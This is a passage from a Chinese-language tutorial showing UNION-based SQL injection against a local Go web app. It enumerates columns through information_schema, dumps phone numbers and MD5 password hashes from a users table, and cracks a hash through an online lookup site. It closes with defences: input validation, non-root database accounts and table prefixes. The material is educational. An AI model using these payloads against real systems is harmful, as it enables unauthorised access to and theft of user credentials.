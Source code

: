 ```
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "password",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 2,3#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 2,3#'",
    "Err": ""
  }
}
```
拿到了用户表手机号密码字段名：mobile、password；
#### 第六步：暴数据
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,mobile,password from users limit 0,1%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "13000000000",
    "Content": "a906449d5769fa7361d7ecc6aa3f6d28",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,mobile,password from users limit 0,1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,mobile,password from users limit 0,1#'",
    "Err": ""
  }
}
```
1、通过表名users和字段名，暴露了第一个用户的手机号和密码；<br>
2、递增limit，可以暴露出所有手机号和密码；<br>

打开网址：https://www.cmd5.com/ ；输入密码字符串，解密密码字符串为：123abc


#### 总结
**1、用户的输入都是非法的数据，需要进行验证、过滤、转义。**
```go
type HashIDField struct {
    HashID int `form:"hashID" valid:"required~hashID不能为空,alphanum~hashID必须为字母和数字,stringlength(8|15)~hashID长度错误"`
}
// 参数hashID组成结构限制为字母和数字，有效的避免了用户输入单引号、井号、百分号、空格等非法字符，参数长度限制联表的可能性
```
**2、应用禁止使用管理员账号连接数据库，增删改查即可。**<br>
在小公司或者外包公司做的项目，因为方便省事使用root账号连接数据库比比皆是，希望引以为戒。

存在注入点的情况下，即使使用了普通权限账号还是有风险，可以通过猜表名、猜字段名的的方式暴露数据；<br>
常用用户表名：users、user、admin、admin_user等等，<br>
常用手机号字段名：mobile、phone、phone_number等等，<br>
增加表前缀可以有效提高猜表难度，例如tsy_users，很多开源cms都要配置一个统一的表前缀就是基于这个目的。
